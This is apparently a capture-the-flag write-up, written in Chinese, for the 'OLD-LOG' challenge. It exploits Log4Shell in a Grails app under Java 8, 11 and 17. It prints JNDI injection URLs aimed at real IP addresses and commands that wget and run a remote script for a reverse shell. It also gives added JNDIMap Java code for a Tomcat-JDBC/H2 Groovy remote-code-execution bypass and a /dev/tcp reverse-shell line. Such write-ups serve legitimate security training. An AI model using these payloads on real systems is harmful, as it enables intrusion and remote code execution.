


# OLD-LOG

## 0x01 题目：

> What if we combine old log4shell with different java versions?（v1.8,v11,v17,v21）
> Flag is in the root directory, but the file name is not "flag".

>Grails 5.3.6 is the latest version that supports Java 1.8.
Download Grails 5.3.6 from https://grails.org/download.html.
Use `grails create-app old-log` to create a default project.
Add dependencies for log4j2-2.14.1.
Add WelcomeController by `grails create-controller welcome`, then modify it:
```
class WelcomeController {

    private static final Logger logger = LogManager.getLogger()

    def index() {
        def name = params.name
        logger.info("{} visited welcome", name);
        render "<html><body><h1>Welcome to AVSS 2024</h1><h3>Your name: $name</h3></body></html>"
    }
}
```
## 0x02 分析

该框架存在log4shell的漏洞，要求分别在不同jre版本下进行漏洞利用。

### v1.8,v11
#### 环境分析
java版本1.8.0_402-b06，因为>8u182，没办法直接使用远程加载恶意类。

```shell
root@56dbe294ec23:/tmp# java -version
openjdk version "1.8.0_402"
OpenJDK Runtime Environment (Temurin)(build 1.8.0_402-b06)
OpenJDK 64-Bit Server VM (Temurin)(build 25.402-b06, mixed mode)
```

#### 程序分析
下载代码，可以看到框架的依赖采用低版本的jackson。

尝试jackson的反序列化链   
`com.fasterxml.jackson.core:jackson-databind:2.14.2, JRE > 7, org.hibernate:hibernate-core:4.3.11.Final, aopalliance:aopalliance:1.0, org.jboss.logging:jboss-logging:3.3.0.Final, javax.transaction:javax.transaction-api:1.2, dom4j:dom4j:1.6.1 `

利用`JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar`工具，可以直接利用。

`java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "https://requestrepo.com/"` 启动服务，通过如下请求触发反序列化，`http://13.212.61.218:18082/welcome?name=%24{jndi%3Aldap%3A%2F%2F120.26.136.135%3A1389%2FdeserialURLDNS}`    
成功确认反序列化链。

#### 漏洞利用
尝试多种，直接反弹shell和base64加密反弹shell都不行。
最后测试docker发现存在wget，可以直接下载sh文件执行达到反弹shell的效果。

触发请求：

`http://13.212.61.218:18082/welcome?name=%24{jndi%3Aldap%3A%2F%2F120.26.136.135%3A1389%2FdeserialJackson}`

利用`JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar`工具，以此执行如下命令，下载文件，修改权限，执行。

1.  `java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "/usr/bin/wget  http://x.x.x.x/re111 -O /tmp/re"` 
2.   `java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "chmod +x /tmp/re"`  
3. `java -jar JNDI-Injection-Exploit-Plus-2.4-SNAPSHOT-all.jar -C "/usr/bin/bash /tmp/re"`



### v17
前面简单的序列化只能绕过低版本，后面需要绕过版本jre。 

由于高版本SpringBoot（自带的tomcat），网上常见的基于`BeanFactory`无法绕过，无法通过设置`forceString`去调用方法。

注意到依赖目录lib里有tomcat-jdbc，可以使用 tomcat-jdbc.jar 的 `org.apache.tomcat.jdbc.pool.DataSourceFactory`，配合JDBC Attack来绕过，打H2数据库。

为了方便放在公网服务器上启动，这里用了一个开源项目`https://github.com/X1r0z/JNDIMap`

但这个项目目前不支持tomcat-jdbc的绕过，自己添一个

```java
package map.jndi.controller.database;

import map.jndi.annotation.JNDIController;
import map.jndi.annotation.JNDIMapping;
import map.jndi.controller.DatabaseController;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.util.Properties;

@JNDIController
@JNDIMapping("/TomcatJDBC")
public class TomcatJDBC extends DatabaseController {
    public Object process(Properties props) {
        Reference ref = new Reference("javax.sql.DataSource", "org.apache.tomcat.jdbc.pool.DataSourceFactory", null);
        ref.add(new StringRefAddr("driverClassName", props.getProperty("driver")));
        ref.add(new StringRefAddr("url", props.getProperty("url")));
        ref.add(new StringRefAddr("initialSize", "1"));

        if (props.getProperty("sql") != null) {
            ref.add(new StringRefAddr("connectionInitSqls", props.getProperty("sql")));
        }
        return ref;
    }
}

```
再改一个地方map.jndi.controller.DatabaseController
```
@JNDIMapping("/H2/Groovy/{cmd}")
public Properties h2Groovy(String cmd) {
    System.out.println("[H2] [Groovy] Cmd: " + cmd);

    if (cmd.startsWith("b64")){
        cmd = new String(Base64.getDecoder().decode(cmd.substring(3)));
        System.out.println(cmd);
    }

    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\\"" + cmd + "\\")" + "})" + "def x";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";

    Properties props = new Properties();
    props.setProperty("driver", "org.h2.Driver");
    props.setProperty("url", url);

    return props;
}

@JNDIMapping("/H2/JavaScript/{cmd}")
public Properties h2JavaScript(String cmd) {
    System.out.println("[H2] [JavaScript] Cmd: " + cmd);

    if (cmd.startsWith("b64")){
        cmd = new String(Base64.getDecoder().decode(cmd.substring(3)));
        System.out.println(cmd);
    }

    String javascript = "//javascript\\njava.lang.Runtime.getRuntime().exec(\\"" + cmd + "\\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER test BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS '"+ javascript +"'";

    Properties props = new Properties();
    props.setProperty("driver", "org.h2.Driver");
    props.setProperty("url", url);

    return props;
}

```
命令参数增加base64解码
```
if (cmd.startsWith("b64")){
    cmd = new String(Base64.getDecoder().decode(cmd.substring(3)));
    System.out.println(cmd);
}

```

`welcome?name=${jndi:ldap://43.136.40.245:1234/TomcatJDBC/H2/Groovy/b64xxx}`

xxx换为`bash -c {echo,yyy}|{base64,-d}|{bash,-i}`base64编码后的内容，yyy为反弹shell命令的base64编码`sh -i >& /dev/tcp/ip/port 0>&1`

JDK17已经把JavaScript引擎移除了，用Groovy来执行命令。

#### ref

- https://tttang.com/archive/1405/
>高版本JDK在RMI和LDAP的trustURLCodebase都做了限制，从默认允许远程加载ObjectFactory变成了不允许。RMI是在6u132, 7u122, 8u113版本开始做了限制，LDAP是 11.0.1, 8u191, 7u201, 6u211版本开始做了限制。
- https://paper.seebug.org/942/